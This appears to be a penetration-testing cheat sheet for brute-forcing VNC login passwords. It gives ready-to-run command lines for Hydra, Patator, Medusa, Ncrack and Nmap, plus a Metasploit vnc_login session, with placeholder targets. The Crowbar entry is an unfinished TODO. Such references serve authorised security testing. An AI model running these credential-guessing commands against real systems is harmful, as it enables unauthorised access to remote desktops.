 # VNC

## 01 - Hydra

`$ hydra -vvv -P <password_list> -e nsr -t 16 <IP> vnc -o vnc_creds.txt`

## 02 - Crowbar

TODO: Provide a syntax of vnckey to brute force targets with crowbar

`$ crowbar`

## 03 - Patator

`$ patator vnc_login host=<IP> password=FILE0 0=<password_list> -t 1 -x retry:fgrep!='Authentication failure' --max-retries 0 -x quit:code=0 -R vnc_creds.txt`

## 04 - Medusa

`$ medusa -h <IP> -u root -P <password_list> -M vnc | tee vnc_creds.txt`

## 05 - Ncrack

`$ ncrack -V --user root -P <password_list> -oN vnc_creds.txt <IP>:5900`

## 06 - Metasploit

```
msf > use auxiliary/scanner/vnc/vnc_login

msf auxiliary(scanner/vnc/vnc_login) > options

Module options (auxiliary/scanner/vnc/vnc_login):

   Name              Current Setting                                                   Required  Description
   ----              ---------------                                                   --------  -----------
   BLANK_PASSWORDS   false                                                             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                 yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                             no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                             no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                             no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                              no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                                                            no        The password to test
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/vnc_passwords.txt  no        File containing passwords, one per line
   Proxies                                                                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             5900                                                              yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                                             yes       Stop guessing when a credential works for a host
   THREADS           1                                                                 yes       The number of concurrent threads (max one per host)
   USERNAME          <BLANK>                                                           no        A specific username to authenticate as
   USERPASS_FILE                                                                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                             no        Try the username as the password for all users
   USER_FILE                                                                           no        File containing usernames, one per line
   VERBOSE           true                                                              yes       Whether to print output for all attempts

msf auxiliary(scanner/vnc/vnc_login) > set rhosts <IP>

msf auxiliary(scanner/vnc/vnc_login) > set rport <PORT>

msf auxiliary(scanner/vnc/vnc_login) > set PASS_FILE /path/to/passwords.txt

msf auxiliary(scanner/vnc/vnc_login) > set threads 4

msf auxiliary(scanner/vnc/vnc_login) > exploit
```

## 07 - Nmap

`$ nmap -p 5900 --script vnc-brute --script-args passdb=passwords.lst <IP>`

## References

- [Password Cracking VNC](https://www.hackingarticles.in/password-crackingvnc/)